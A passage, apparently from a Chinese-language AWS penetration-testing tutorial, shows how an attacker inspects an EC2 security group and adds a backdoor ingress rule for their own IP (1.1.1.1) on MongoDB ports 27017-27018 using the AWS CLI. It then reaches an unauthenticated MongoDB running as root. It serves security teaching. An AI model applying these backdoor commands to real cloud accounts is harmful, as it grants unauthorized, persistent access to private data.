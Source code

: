 ```
"SecurityGroups": [
    {
        "GroupName": "corp",
        "GroupId": "sg-0315cp741b51fr4d0"
    }
]
```

有一个附加到目标实例的单个组名为`corp`；我们可以猜测它代表公司。现在我们有了安全组的名称和 ID，但我们想要看看它上面已经存在的规则。我们可以通过运行以下 AWS CLI 命令找到这些信息：

```
aws ec2 describe-security-groups --group-ids sg-0315cp741b51fr4d0 --profile Test 
```

该命令的响应应该显示已添加到安全组的入站和出站规则。响应的`IpPermissions`键包含入站流量规则，`IpPermissionsEgress`键包含出站流量规则。我们目标`corp`安全组的入站流量规则如下：

```
"IpPermissions": [
    {
        "FromPort": 27017,
        "IpProtocol": "tcp",
        "IpRanges": [
            {
                "CidrIp": "10.0.0.1/24"
            }
        ],
        "Ipv6Ranges": [],
        "PrefixListIds": [],
       "ToPort": 27018,
        "UserIdGroupPairs": []
    }
]
```

我们所看到的是允许来自 IP 范围`10.0.0.1/24`到范围`27017`到`27018`的任何端口的入站 TCP 访问。也许你认识这些端口！这些端口通常属于 MongoDB，一种 NoSQL 数据库。问题是访问被列入白名单到一个内部 IP 范围，这意味着我们已经需要在网络中有一个立足点才能访问这些端口。这就是我们将添加我们的后门安全组规则，以便我们可以直接访问 MongoDB 的地方。

为了做到这一点，我们可以使用`ec2:AuthorizeSecurityGroupIngress` API。我们将说我们自己的攻击者 IP 地址是`1.1.1.1`，我们已经知道要打开访问权限的端口，所以我们可以运行以下 AWS CLI 命令：

```
aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --protocol tcp --port  27017-27018 --cidr 1.1.1.1/32
```

如果一切顺利，您将不会看到此命令的任何输出，但如果出现问题，将会出现错误。现在我们的后门规则已成功应用，我们所针对的安全组中的每个 EC2 实例现在应该允许我们访问。请记住，可以指定`0.0.0.0/0`作为您的 IP 地址范围，并且它将允许任何 IP 地址访问。作为攻击者，我们绝对不希望这样做，因为这将打开其他攻击者可能发现和滥用的环境入口，因此我们始终要确保即使我们的后门访问规则也是细粒度的。

现在我们可以尝试远程访问 MongoDB，以测试我们的后门规则是否成功，并希望获得对以前私有的 MongoDB 服务器的访问权限。以下屏幕截图显示我们连接到端口`27017`上的 Mongo 数据库，服务器的一些错误配置对我们有利。如屏幕截图的轮廓部分所示，访问控制（身份验证）未设置，这意味着我们可以在不需要凭据的情况下读取和写入数据库。下一条消息显示 Mongo 进程正在以 root 用户身份运行，这意味着如果我们能够在 Mongo 服务器上执行任何文件读取或代码执行，它将以 root 用户身份运行：

![](img/a765957b-d8e1-44fc-afe1-98fc2732d516.png)
